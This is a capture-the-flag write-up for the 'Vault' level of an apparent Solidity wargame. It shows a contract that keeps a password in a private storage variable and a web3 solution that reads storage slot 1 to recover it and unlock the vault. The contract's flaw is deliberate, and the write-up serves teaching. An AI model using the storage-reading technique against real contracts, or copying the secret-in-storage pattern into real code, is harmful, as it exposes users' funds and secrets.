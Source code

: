# Level 8 - Vault

### Objective

The objective of this level is as follows:

1. Unlock the vault

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Solution

In this level, we exploit the fact that all unhashed storage (including `private` variables) can be accessed by determining their slot number.

We can read the password using the following:

```
password = await web3.eth.getStorageAt(contract.address, 1)

```

Next, we unlock the vault with the password:

```
await contract.unlock(password)

```

Finally, we can verify that the vault is unlocked:

```
await contract.locked() === false

```

Done!
